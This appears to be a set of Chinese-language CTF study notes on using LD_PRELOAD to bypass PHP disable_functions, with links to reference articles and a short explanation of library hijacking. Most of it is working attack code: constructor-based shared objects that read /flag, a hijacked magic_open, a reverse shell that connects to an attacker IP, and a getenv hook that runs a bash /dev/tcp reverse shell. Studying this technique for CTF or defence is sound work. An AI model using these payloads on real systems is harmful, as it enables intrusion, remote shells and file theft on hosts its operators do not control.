

[从一道ctf题中学会了利用LD_PRELOAD突破disable_functions](https://zhuanlan.zhihu.com/p/94112503)<br />[利用LD_PRELOAD实现函数劫持以及用法总结 – Zgao’s blog](https://zgao.top/%E5%88%A9%E7%94%A8ld_preload%E5%AE%9E%E7%8E%B0%E5%87%BD%E6%95%B0%E5%8A%AB%E6%8C%81%E4%BB%A5%E5%8F%8A%E7%94%A8%E6%B3%95%E6%80%BB%E7%BB%93/)<br />[无需sendmail：巧用LD_PRELOAD突破disable_functions - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/192052.html)<br />[深入浅出LD_PRELOAD & putenv()-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/175403#h2-5)
## LD_PRELOAD利用
### 原理
:::tips
利用漏洞控制 web 启动新进程 a.bin（即便进程名无法让我随意指定），a.bin 内部调用系统函数 b()，b() 位于系统共享对象 c.so 中，所以系统为该进程加载共 c.so，我想法在 c.so 前优先加载可控的 c_evil.so，c_evil.so 内含与 b() 同名的恶意函数，由于 c_evil.so 优先级较高，所以，a.bin 将调用到 c_evil.so 内 b() 而非系统的 c.so 内 b()，同时，c_evil.so 可控，达到执行恶意代码的目的。
:::

- 通过修改环境变量LD_PRELOAD来指定相关命令或函数首先加载哪个动态链接库
```c
export LD_PRELOAD=”库文件路径”
```

- 修改/etc/ld.so.preload来指导关命令或函数首先加载哪个动态链接库

使用strace命令追踪调用可以看到访问了该文件
> **strace**能帮助你追踪到一个程序所执行的系统调用。 当你想知道程序和操作系统如何交互的时候


```c
库文件路径
```
## 检测动态调用地步骤
查看进程调用系统函数明细。linux 创建新进程的过程较为复杂，我关心进程加载了哪些共享对象、可能调用哪些 API、实际调用了哪些 API。比如，运行 /usr/bin/id，通过 ldd 可查看系统为其加载的共享对象：
```c
ldd /usr/bin/id
```
<br />由于可执行文件 /usr/bin/id 内含符号表，所以，运行 nm -D /usr/bin/id 2>&1 或 readelf -Ws /usr/bin/id 可查看该程序可能调用的系统 API 明细：
```c
nm -D /usr/bin/id 2>&1
readelf -Ws /usr/bin/id
```
<br />由于程序运行时会根据命令行选项、运行环境作出不同反应，导致真正运行时调用的 API 可能只是 readefl 查看的子集，你可以运行 strace -f /usr/bin/id 2>&1 跟踪实际 API 调用情况，比如，实际调用 open() 的入参、返回值一目了然：
```c
strace -f /usr/bin/id 2>&1
```


 
## 编译so文件
```c
gcc -shared -fPIC test.c -o test.so
```
## 各种C文件
### 读文件
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

char *getfileall(char *fname)
{
    FILE *fp;
    char *str;
    char txt[1000];
    int filesize;
    //打开一个文件
    if ((fp=fopen(fname,"r"))==NULL){
        printf("打开文件%s错误\n",fname);
        return NULL;
    }
    //将文件指针移到末尾
    fseek(fp,0,SEEK_END);
    filesize = ftell(fp);//通过ftell函数获得指针到文件头的偏移字节数。

    str=(char *)malloc(filesize);//动态分配str内存
    //    str=malloc(filesize);//动态分配str内存
    str[0]=0;//字符串置空
    //    memset(str,filesize*sizeof(char),0);//清空数组,字符串置空第二种用法
    rewind(fp);

    while((fgets(txt,1000,fp))!=NULL){
        strcat(str,txt);
    }
    fclose(fp);
    return str;
}

__attribute__ ((__constructor__)) void exp (void){
    char *p;
    char *fname="/flag"; // 文件名
    p=getfileall(fname);
    if (p!=NULL) puts(p);
}
```
```c
#include <stdlib.h>
#include <stdio.h>

// 改写magic_open 适用于/bin/file

int magic_open() {
    FILE *file;
    char c;

    file = fopen("/flag", "r");
    while((c = fgetc(file)) != EOF) {
        putchar(c);
    }

    fclose(file);
    exit(0);

    return 0;
}
```
## 命令执行
```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

// gcc ld_preload_1.c -fPIC -shared -o ld_preload_1.so
char *server_ip="114.514.1919.810";
uint32_t server_port=9999;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
    //remove the file /ld.so.preload
    remove("/etc/ld.so.preload");

    //socket initialize
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
    //connect to the server
    if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
        exit(0);
    //dup the socket to stdin, stdout and stderr
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    //execute /bin/sh to get a shell
    //shell会被timeout 1
    //execve("/bin/sh", 0, 0);
    system("cat /flag");
}
```
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
system("bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'");
}
char* getenv(const char *__name) {
unsetenv("LD_PRELOAD");
payload();
}
```
